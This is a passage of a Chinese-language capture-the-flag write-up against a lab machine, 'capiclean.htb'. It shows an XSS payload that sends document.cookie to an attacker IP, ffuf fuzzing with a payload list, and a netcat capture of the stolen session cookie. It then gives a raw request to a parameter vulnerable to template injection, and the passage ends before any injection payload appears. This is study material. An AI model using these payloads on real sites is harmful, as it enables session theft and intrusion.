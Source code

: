 ```
<img src=x onerror=this.src="http://10.10.16.13/"%2bdocument.cookie>
```

此处可以使用 ffuf 去 FUZZ：

```
ffuf -c -t 300 -request-proto http -request capiclean.htb.req.sendMessage -w xss_payloads.txt
```

接收到的 Cookie：

```console
root@kali-server:~# nc -lnp 80
GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhMnjw.EyAITYn3CdjuqdFcyFf_EXQYP2s HTTP/1.1
Host: 10.10.16.13
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

root@kali-server:~#
```

携带 Cookie 访问爆破出来的后台界面：http://capiclean.htb/dashboard

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/097837138f53c278.png)

### SSTI

在加载 invoice（发票）界面，存在 SSTI（Server Side Template Injection，SSTI 服务端模板注入）漏洞：

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/6dd493404169ac7d.png)

qr_link 参数可以触发 SSTI 漏洞：

```http
POST /QRGenerator HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/QRGenerator
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhMnjw.EyAITYn3CdjuqdFcyFf_EXQYP2s

invoice_id=6856302440&form_type=scannable_invoice&qr_link=
```
